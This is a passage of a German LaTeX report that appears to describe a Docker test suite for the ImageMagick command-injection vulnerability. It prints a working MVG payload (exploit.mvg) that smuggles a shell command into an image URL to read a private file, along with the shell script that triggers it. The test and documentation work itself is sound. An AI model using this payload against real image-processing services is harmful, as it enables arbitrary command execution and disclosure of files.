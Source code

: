 \begin{lstlisting}[language=Text, caption=Geheime Datei in Testsuite,label={lst:testsuiteprivatefile}]
> cat PRIVATE_FILE
PRIVATE-CONTENT
\end{lstlisting}
\vspace{5mm}


Diese Datei wird im nachfolgend von ImageMagick aufgerufen und enthält den Code,
welcher den Inhalt der PRIVATE\_FILE ausgibt.

\begin{lstlisting}[language=Text, caption=exploit.mvg in Testsuite,label={lst:testsuiteexploit}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://testimage.png"|cat "PRIVATE_FILE)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Eine Beschreibung, warum der hinterlegte Code ausgeführt wird, ist im Kapitel "`Details der Schwachstelle"' zu finden .



\begin{lstlisting}[language=Text, caption=entryPoint.sh in Testsute,label={lst:testsuiteentry}]
#!/bin/bash

identify exploit.mvg
echo 'AFTER_IDENTIFY'
\end{lstlisting}
\vspace{5mm}

Dieses Shell-Script wird von jedem Dockerfile aufgerufen, um den Exploit auszunutzen.
Dabei wird die identify-Funktion von Imagemagick angesprochen.\\

Das nachfolgende echo wird als Flag benutzt, um sicherzustellen, dass entryPoint.sh auch wirklich aufgerufen wird.
Dies wird später in test.sh etwas genauer erläutert.



Hier handelt es sich um ein valides JPEG-Bild File,
welches bei dem eigentlichen Test nicht direkt benötigt,
jedoch zu debug zwecken nützlich ist,
um die generelle Funktionsfähigkeit von Imagemagick und dem Identify Befehl zu testen.



Mit diesem Script wird der Test einer speziellen Umgebung angestoßen.
Hierbei wird der Name des Dockerfiles als ersten Parameter übergeben.

